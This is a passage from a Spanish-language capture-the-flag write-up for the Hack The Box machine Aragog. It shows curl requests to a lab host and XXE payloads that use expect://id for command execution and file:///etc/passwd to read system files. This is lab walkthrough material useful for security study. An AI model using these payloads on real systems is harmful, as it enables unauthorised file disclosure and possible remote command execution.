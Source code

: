 ```bash

Total time: 0
Processed Requests: 26495
Filtered Requests: 26492
Requests/sec.: 0
```

Vemos que existe un recurso denomiando **hosts.php**, por lo que accedemos  y vemos lo siguiente:

![](/assets/images/htb-aragog/aragog_hosts.png)

"*There are 4294967294 possible hosts for*", dicha frase hace referencia a los hosts que se encuentran en una red con determinada máscara; por lo tanto encontramos relación con el archivo **test.txt** que encontramos por FTP.

Ahora, analizando un poco, vemos que el archivo **test.txt** tiene un formato en XML; buscando un poco, vemos que existe una vulnerabilidad relacionada a XML denominada XXE (XML External Entity) que podríamos probar. Para hacerlo, vamos a hacer uso de la herramienta `curl` en conjunto con el parámetro `-d` para que el sitio nos pueda leer un archivo, para este caso el **test.txt** y ver que nos arroja:

```bash
❯ curl -d @test.txt http://10.10.10.78/hosts.php

There are 62 possible hosts for 255.255.255.192
```

Podemos corroborar que el sitio es vulnerable a ataques de tipo XXE; por lo tanto en vez de que el sitio nos lea el archivo **test.txt**, vamos a buscar una forma de poder ingresar a la máquina víctima. Si quieremos saber un poco más al respecto, podemos consultar la siguiente liga:

[XML External Entity (XXE) Processing)](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

Haciendo una pruebas, vemos que se crea una entidad llamada `xxe`, el cual lo sustituimos en el campo que es leido por el servidor, para este caso el campo `subnet_mask`.

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

Lo ejecutamos y vemos que no obtenemos algún resultado. Esto puede ser porque al servidor no le gusta el wrapper `expect`, así que vamos a utilizar otro, como por ejemplo `file`:

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```
